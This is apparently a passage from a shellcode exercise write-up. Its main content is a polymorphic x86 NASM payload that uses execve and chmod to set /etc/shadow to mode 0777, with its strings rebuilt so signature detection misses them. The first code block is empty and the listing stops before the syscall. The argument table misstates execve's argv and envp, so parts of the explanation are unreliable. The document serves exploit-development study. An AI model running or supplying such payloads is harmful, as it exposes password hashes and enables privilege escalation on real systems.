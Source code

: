 ```nasm
```

Briefly, the syscall that is executed is `execve`, because of the number `11` passed to `EAX`. The string "///bin/chmod" is pushed to the stack and then saved to `EBX` register. Then, the string "/etc//shadow" is pushed to the stack and later saved to `ESI` register. After that, the string "0777" is pushed to the stack and saved to `EBP` register. So, the arguments of the `execve` can be matched with their values in the following table.

| Argument | Value |
| -- | -- |
| `filename` | `///bin/chmod` |
| `argv` | `/etc//shadow` |
| `envp` | `0777` |

The polymorphic version (`execve-chmod.nasm`) is the following:

```nasm
global _start

section .text
_start:

	xor eax, eax		; clear eax
	
	push eax		; push the value 0 to the stack
	
	; push 0x776f6461
	mov dword [esp-4], 0x776f6461	; "adow" is saved to the stack

	; push 0x68732f2f
	mov dword [esp-8], 0x68732f2f	; "//sh" is saved to the stack

	; push 0x6374652f
	mov dword [esp-12], 0x6374652f	; "/etc" is saved to the stack

	sub esp, 12		; esp points at the top of the stack, where is th string "/etc//shadow"

	mov esi, esp		; esi now points at the string at the top of the stack

	push eax		; push the value 0 to the stack
	
	push 0x37373730		; push "0777" (permissions) to the stack
	mov ebp, esp		; ebp now points at the string at the top of the stack, where is the string "0777"

	push eax			; push the value 0 to the stack

	; push  0x646f6d68
	mov dword [esp-4], 0x646f6d68	; "hmod" is saved to the stack
	
	; push  0x632f6e69
	mov dword [esp-8], 0x632f6e69	; "in/c" is saved to the stack
	
	; push  0x622f2f2f
	mov dword [esp-12], 0x622f2f2f	; "///b" is saved to the stack

	sub esp, 12			; esp points at the top of the stack, where is th string "///bin/chmod"

	mov ebx, esp			; ebx now points at the string at the top of the stack 

	push eax			; push the value 0 to the stack
	push esi			; push "/etc//shadow"
	push ebp			; push "0777"
```